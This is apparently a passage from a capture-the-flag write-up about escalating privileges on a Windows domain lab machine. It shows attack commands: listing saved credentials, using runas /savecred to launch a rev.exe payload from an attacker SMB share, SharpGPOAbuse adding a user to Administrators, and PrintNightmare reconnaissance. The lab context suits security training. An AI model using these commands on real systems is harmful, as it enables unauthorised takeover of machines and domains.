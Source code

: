 * That explains how the powershell script we exploited gets run, and where any files we upload via SMB get stored.
* next ran winpeas.exe and found we have autologon credentials on target.
* next to check and see what user credentials are saved for autologon we will user following command.

```
cmdkey /list
```

* Yayy its of Administrator.
* [https://steflan-security.com/windows-privilege-escalation-credential-harvesting/](https://steflan-security.com/windows-privilege-escalation-credential-harvesting/)
* but here as we know we cannot extract this credentials but use a windows utitlity called runas to run command as diff. user by giving in their creds.

```powershell
runas /savecred /user:VULNNET\Administrator “\\10.8.70.87\share\rev.exe”
```

### Bloodhound

* Time for something more powerful: SharpHound and BloodHound!
* After uploading and running SharpHound.exe, we transfer the generated .zip file back to our local machine.
* Then, we use BloodHound to analyse the found data: Immediately
* BloodHound gives us the shortest path from our current user enterprise-security to the Administrator.
* Apparently, we do have `GenericWrite` Permissions to one of the `GPOs` - namely `security-pol-vn`.
* Luckily for us, there are several tools that help us with exploiting this. We decided to use the tool [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse).
* with this we can add our current user to Administrators group.

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "babbadeckl_privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

* Once executed, we only have to run the following command to update the permissions:

```
gpupdate \force
```

* Now we can access the Administrator via SMB.
* Final step is to obtain the sytem flag.

### PrintNightmare

* To identify and for vulnerablility.
* I check to see if PrintNightmare is a possibility on the server
* and it is, so once we establish a foothold we can likely use this to escalate our privileges:

```bash
impacket-rpcdump 10.10.196.146 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```
